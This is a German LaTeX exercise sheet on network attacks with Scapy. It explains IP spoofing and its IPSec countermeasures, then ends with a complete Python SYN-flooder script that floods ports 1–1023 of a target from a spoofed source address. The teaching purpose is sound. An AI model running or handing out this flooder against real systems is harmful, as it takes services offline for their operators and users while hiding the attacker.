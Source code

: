 \documentclass[paper=a4,fontsize=11pt]{scrartcl}%
\numberwithin{equation}{section}
\begin{document}
Mittels \emph{IP()/ICMP()]} definieren wir ein IP-Paket, das in einem ICMP-Paket verpackt ist. Die etwas unübliche, aber nützliche Schreibweise funktioniert, weil Scapy in der Paket-Bibliothek den/Operator mittels \emph{\_\_div\_\_} überschreibt. Dem IP-Paket geben wir als Parameter eine beliebige Source-IP und die gewünschte Destination-IP mit. Das resultierende Paket-Objekt lassen wir uns mit der \emph{show()}-Methode komplett anzeigen (man könnte auch mit \emph{show2()} nur Layer 2 ausgeben). Danach versenden wir es mit der \emph{send()}-Methode (auch hier gibt es die schon bekannte Methode \emph{sendp()} für Layer 2). Falls wir eine Antwort auf dieses Paket erhalten haben, wird sie angezeigt. Natürlich erhalten wir nur eine Antwort, wenn das Paket physisch bei uns vorbeifliegt; das heißt, sofern der Rechner nicht an einem Hub angeschlossen ist, muss ein Angreifer mit Hilfe einer MITM-Attacke selbst dafür sorgen, dass er die Antwort geschickt bekommt. In unserem Fall brauchen wir uns nicht um MITM-Angriffe zu scheren, denn Scapy trägt für uns automatisch unsere MAC-Adresse als Absender und die Ziel-MAC-Adresse ein, wenn wir die Ethernet-Schicht weglassen. Dadurch ist sichergestellt, das die Antwort ihren Weg zu uns finden wird.\\
IP-Spoofing kann am besten mit der Signierung oder noch besser mit der Signierung und Verschlüsselung von IP-Paketen verhindert werden. Dazu dienen wahlweise die Protokolle \emph{AH} oder \emph{ESP} aus der \emph{IPSec}-Protokollfamilie.
\begin{center}\Large{\textbf{Aufgabe D -- SYN-Flooder}}\end{center}\vskip0.25in
Eine weitere \emph{DOS} (Denial of Service)-Variante ist \emph{SYN-Flooding}. Dabei werden an ein Zielsystem so viele TCP-Pakete mit gesetztem SYN-Flag gesetzt, bis dieses alle weiteren Verbindungsversuche verweigert. Pakete, die das \emph{SYN-Flag} gesetzt haben, dienen in der Regel dazu, den Three-Way-Handshake einzuleiten, und werden beim Zielsystem für einen offenen Port mit einem \emph{SYN/ACK}-Paket beantwortet. Erfolgt von der anfragenden Seite kein abschließendes \emph{ACK}, bleibt die Verbindung im sogenannten Half-Open-State, bis sie nach einem Timeout geschlossen wird. Sollten zu viele Verbindungen auf einem System im Half-Open-State sein verweigert es alle weiteren Verbindungsanfragen. Um zu erfahren, wie Ihre Systeme auf diesen Ausnahmezustand reagieren, programmieren wir in ein paar Zeilen Python solch einen SYN-Flooder.
\begin{python}
#!/usr/bin/python
import sys
from scapy.all import srflood, IP, TCP

if len(sys.argv) < 3:
	print(sys.argv[0], " <spoofed_source_ip> <target>")
	sys.exit(0)
packet = IP(src=sys.argv[1], dst=sys.argv[2]) / \
		TCP(dport=range(1,1024), flags="S")
		
srflood(packet, store=0)
\end{python}
\end{document}
